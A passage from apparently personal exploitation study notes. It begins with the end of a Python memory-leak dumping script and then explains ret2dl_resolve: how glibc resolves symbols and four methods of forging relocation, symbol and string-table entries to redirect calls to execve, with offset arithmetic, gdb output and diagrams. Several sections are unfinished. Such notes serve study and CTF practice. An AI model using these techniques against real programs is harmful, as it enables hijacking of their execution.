            file.append(check[:-1])
            r.close() 
            
        else:
            r.close()
    except:                                             
        print(sys.exc_info()[0])
        r.close()


file = []
offset = 0x7f                                           

for i in range(0x100):                      
    offset = leak_binary_write(i*offset,0x400000)
    print(f'{hex(i*offset)}')


string1 = b''.join(file)

with open('binary_dump', 'wb') as out:
    out.write(string1)
    out.close()

```

</div>
</details>


# ret2dl_resolve

<details>
    <summary>how _dl_runtime_resolve works </summary>
        <div>
		
# how _dl_runtime_resolve works

```
_dl_runtime_resolve(elf_info , index )
				|
				|
  ------------------------------
  |
  |	 ___________________          ___________________          ___________________
  |	| Relocation table  |        |   Symbol table    |        |   String table    |
  |	|_____rel.plt_______|        |_____.dynsym_______|        |______.dynstr______|
  |	|       ...         |        |       ...         |        |       ...         |
  |	|___________________|        |___________________|        |___________________|
  >>>>>>|      r_offset     |        |      st_name      |        |      read\0       |
	|___________________|        |___________________|        |___________________|
	|      r_info       | ____   |      st_info      |        |       ...         |
	|___________________|     |  |___________________|        |___________________|
	|       ...         |     |  |        ...        |    |>>>|      puts\0       |
	|___________________|     |  |___________________|    |   |___________________|
	|      r_offset     |     |  |      st_name      | ___|   |       ...         |
	|___________________|     |  |___________________|        |___________________|
	|      r_info       |     >>>|      st_info      |        |                   |
	|___________________|        |___________________|        |___________________|

```
		
so first we enter the call to puts.

since this is the first call to puts it is not binded we need to setup the arguments for _dl_runtime_resolve(elf_info , index )

pushes the index in this case 0x0       \
```
	0x401030                  endbr64        
 →   0x401034                  push   0x0       
     0x401039                  bnd    jmp 0x401020      
```
pushes the elf_info 0x404008:	0x00007ffff7ffe190       \
```
→   0x401020                  push   QWORD PTR [rip+0x2fe2]        # 0x404008       
     0x401026                  bnd    jmp QWORD PTR [rip+0x2fe3]        # 0x404010       
     0x40102d                  nop    DWORD PTR [rax]       
```
than we look into the rel.plt        

we pushed 0 so we look at the first entry of the Relocation table and find the r_info holding 100000007h for now we only care about the 1 which is the offset for the Symbol table       
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/Relocation_table.png">

in the Symbole table we look at offset 1 and find the st_name which holds the offset 10h
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/Symbole_table.png">
		
in the String table we look at ofset 10h and find the string puts
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/String_Table.png">


</div>
</details>




<details>
    <summary>ret2dl_resolve method 1. (PIE is off // RELRO off)</summary>
        <div>
		
# ret2dl_resolve method 1. (PIE is off // RELRO off)

Prerequisites
1. IP controll
2. ability to write to memory

in the .dynamic section there is a pointer to the String table .dynstr if RELRO is off this section is actually writeable we can change the pointer to.
if we cange d_val to a section in the .bss we can basically write our own String table there and simply could replace puts with execve.


```
 ___________________      ___________________ 
|   Symbole table   |    |    String table   | <<<______
|______.dynsym______|    |______.dynstr______|          |
|        ...        |    |        ...        |          |
|___________________|    |___________________|          |
|       st_name     |_   |       read\0      |          |
|___________________| |  |___________________|          |
|       st_info     | |>>|       puts\0      |          |
|___________________| .  |___________________|          |
        ...............                .................|_______
	.	 ___________________   .  ___________________   |
	.	|   Writeable area  |<<. |      .dynamic     |  |
	.	|________.bss_______|    |___________________|  |
	.	|        ...        |    |        ...        |  |
	.	|___________________|    |___________________|  |
	.	|       read\0      |    |  d_tag: DT_STRTAB |  |
	.	|___________________|    |___________________|  |
	.....>>>|       execve\0    |    |       d_val       |__|
		|___________________|    |___________________|

```
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/nRELROdynamicSection.png">		
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/dynstr.png">

</div>
</details>


<details>
    <summary>ret2dl_resolve method 2. (PIE is off// partial RELRO)</summary>
        <div>

# ret2dl_resolve method 2. (PIE is off// partial RELRO)


Prerequisites
1. IP controll
2. ability to write to memory

```
  [ 6] .dynsym     00000000004003c0  symbole table
  [ 7] .dynstr     0000000000400438  string table
  [11] .rela.plt   00000000004004d8  relocation table
  [22] .dynamic    0000000000403e20  dynamic section
  [24] .got.plt    0000000000404000  GOT
  [26] .bss        0000000000404038  .bss we can write here

```

we can create a fake .rel.plt entry in the .bss and pass a huge index to _dl_runtime_resolve(elf_info,index)

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/relplt.png">

we set 0x1A6 as index.   \
runtime_resolve would than look for the .rel.plt entry @ 0x404038 which is in .bss we have controll over and can place a fake .rel.plt struct here that contains the fake r_info.   
		
each .rel.plt entry is 24 bytes in size.    	
		
```
addr_fake_struct - addr_of_.rel.plt = byte_offset / 24 = index_offset 
0x404038 - 0x4004d8 = 0x3B60/24 = 0x1A6   
```

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/dynsym.png">
we set our fake r_info to 0x286 and place our fake .dynsym struct that contains the fake st_name entry directly under our fake .rel.plt struct   /

each .dynsym entry is 18 bytes in size 
		
```
(addr_fake_struct + offset_fake_dynsym) - addr_of_.dynsym = byte_offset / 18 = r_info_offset 
(0x404038+24) - 0x04003c0     				#+24 cause our fake_.rel.plt is 24 bytes
0x404050 - 0x04003c0 = 0x3c90/18 = 0x286    
```	

here we set the st_name offset to 0x3c2a.    \
starting @ 0x400438 to our fake string @ 0x404062    
```
(addr_fake_struct + offset_fake_dynsym + offset_fake_dynstr) - addr_of_.dynstr = st_name 
(0x404038+24+18) - 0x400438    
0x404062 - 0x400438 = 0x3c2a    
```
and as last step we set what libc function we want to resolve into our fake .dynstr entry @ 0x404062



```
_dl_runtime_resolve(elf_info , index)
				|  
                       _________|                   
 ___________________  |           
| Relocation table  | |        
|______.rel.plt_____| |               
|        ...        | |               
|___________________| |               
|       r_offset    | |               
|___________________| |               
|       r_info      |<|               
|___________________| .     
                      .
                      ..........
	 ___________________   .
	|    Writable area  |  .
	|________.bss_______|  .
	|      r_offset     |  .
	|___________________|  .
 .......|      r_info       |<..
 .	|___________________|
 .      |        ...        |
 .      |___________________|
 .	|      st_name      |
 .	|___________________|
 .....>>|      st_info      |...   
	|___________________|  . 
	|        ...        |  . 
	|___________________|  . 
	|      execve\0     |<<. 
	|___________________|


```
This aproach will not work allways:
If the Dynamic loader checks the boundaries.
If symbol versioning and huge pages are enabled. 


</div>
</details>


	
	
<details>
    <summary>ret2dl_resolve method 3. (PIE is off//partial RELRO)</summary>
        <div>
in prgoress		
# ret2dl_resolve method 3. (PIE is off//partial RELRO)

Prerequisites
1. IP controll
2. ability to write to an addr `*(destination) = value` 

`mov [rax],rdi`


3. ability to write to a pointer with an offset  `*(*(reg) + offset) = value`

```
mov rax, [rax]				#get the pointed addr into rax
mov [rax + rdx], rdi		#add rdx to pointed addr and mov rdi into it
```

elf_info points to a link_map struct    \
the link_map holds a pointer to the .dynstr table    \
the elf_info is allways available at a reserved GOT entry GOT[1]

this is like the first attack but we need a specific gadget to exploit this sucesfully.

we know the pointer to the link_map but we actually have to rewrite an entry in the link map.    \


```
gef➤  got

GOT protection: Partial RelRO | GOT functions: 3
 
[0x404018] puts@GLIBC_2.2.5  →  0x401030
[0x404020] __stack_chk_fail@GLIBC_2.4  →  0x401040
[0x404028] gets@GLIBC_2.2.5  →  0x401050

```

```
gef➤  tel 0x404000
0x0000000000404000│+0x0000: 0x0000000000403e20  →  0x0000000000000001
0x0000000000404008│+0x0008: 0x00007ffff7ffe190  →  0x0000000000000000
0x0000000000404010│+0x0010: 0x00007ffff7fe7bb0  →   endbr64 
0x0000000000404018│+0x0018: 0x0000000000401030  →   endbr64 
0x0000000000404020│+0x0020: 0x0000000000401040  →   endbr64 
0x0000000000404028│+0x0028: 0x0000000000401050  →   endbr64 
0x0000000000404030│+0x0030: 0x0000000000000000
0x0000000000404038│+0x0038: 0x0000000000000000
0x0000000000404040│+0x0040: 0x0000000000000000
0x0000000000404048│+0x0048: 0x0000000000000000

```



``` 
         ___________________       ___________________
	|        GOT        |  |>>|    String table   |
	|______.plt.got_____|  |>>|______.dynstr______| 
	|        got[0]     |  |  |        ...        |  
	|___________________|  |  |___________________|  
	|        got[1]     |  |  |       read\0      | 
 |------|___________________|  |  |___________________| 
 |	|        got[2]     |  |  |       puts\0      | 
 |	|___________________|  |  |___________________|
 |                             |
 |	 ___________________   |   ___________________  
 |	|                   |  |.>|  Writable area    |  
 |	|___________________|  |.>|___________________|  
 |	|        ...        |  |. |        ...        |  
 |	|___________________|  |. |___________________|  
 |	|  l_info[DT_HASH]  |  |. |       read\0      |  
 |	|___________________|  |. |___________________|  
 |---->>| l_info[DT_STRTAB] |--|. |       execve\0    |
	|___________________|     |___________________|
	| l_info[DT_SYMTAB] |
	|___________________|

```
</div>
</details>


		
	
<details>
    <summary>ret2dl_resolve method 4. (PIE is off//full RELRO)</summary>
        <div>
		
# ret2dl_resolve method 4. (PIE is off//full RELRO)
		
in this methode we use a debugging feature DT_DEBUG in the .dynamic section that points to a debugger data struct. (it is used by e.g. gdb to track loading of new librarys)

this DT_DEBUG data struct also holds a pointer to the link_map

but we still have to find the dl_runtime_resolve() cause the reserved GOT entry for it is gone as well as the elf_info link_map reserver GOT

the link_map is part of a linked list.
If we go to the next entry in the liniked list 


Prerequisites
1. IP controll
2. ability to write to an addr `*(destination) = value` 

`mov [rax],rdi`


3. ability to write to a pointer with an offset  `*(*(rax) + offset) = value`


```
mov rax, [rax]
mov [rax + offset],value
```

4. 

```
mov pointer, [pointer]
mov reg, [pointer + offset]
mov [destination], reg
```
5.
```
mov reg, [source]
mov [esp + offset], reg
```

```
     ___________________                     ___________________         ___________________ 
    |   Dynamic section |                   |       [HEAP]      |       |        GOT        |  
    |______.dynamic_____|                   |___________________|     |>|______.plt.got_____|    
    |        ...        |                   |         ...       |     | |       GOT[0]      |   
    |___________________|                   |___________________|     | |___________________|   
    |  d_tag: DT_DEBUG  |                   |      r_version    |     | |       GOT[1]      |      
    |___________________|                   |___________________|     | |___________________|      
    |       d_val       | ---------------->>|        r_map      |     | |       GOT[2]      |---_dl_runtime_resolve
    |___________________|                   |___________________|--|  | |___________________|    
    |        ...        |                   |         ...       |  |  | |       GOT[3]      | 
    |___________________|                   |___________________|  |  | |___________________|   
    |  d_tag: DT_STRTAB |           |-------|l_info [DT_STRTAB] |  |  | |        ...        |  
    |___________________|           | ......|___________________|  |  | |___________________|  
 ---|       d_val       |           | .     |         ...       |  |  |    
 |  |___________________|           | .     |___________________|  |  |   
 |                                  | .   --|       l_next      |<-|  |
 |                                  | .   | |___________________|     |
 |                                  | .   | |         ...       |     |
 |                                  | .   | |___________________|     |
 |                                  | .   |>| l_info[DT_PLTGOT] |-----|
 |                                  | .     |___________________|
 |   ___________________            | .
 ->>|    String table   |<<---------- .
    |______.dynstr______|              .
    |        ...        |               ................
    |___________________|        ___________________   .
    |       read\0      |       |    Writable area  |  .
    |___________________|       |________.bss_______|<<.
    |       puts\0      |<--    |        ...        |
    |___________________|  |    |___________________|
    |        ...        |  |    |       read\0      |
    |___________________|  |    |___________________|
                           |..>>|       execve\0    |
     ___________________   |.   |___________________| 
    |   Symbol table    |  |.  
    |______.dynsym______|  |.    
    |        ...        |  |.   
    |___________________|  |.   
    |      st_name      |--|.    
    |___________________| 
    |      st_info      |    
    |___________________|   
    |        ...        |    
    |___________________| 
```
IN PROGESS
		
		
		
</div>
</details>

# SROP
in progress
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/sigret_frame.png">
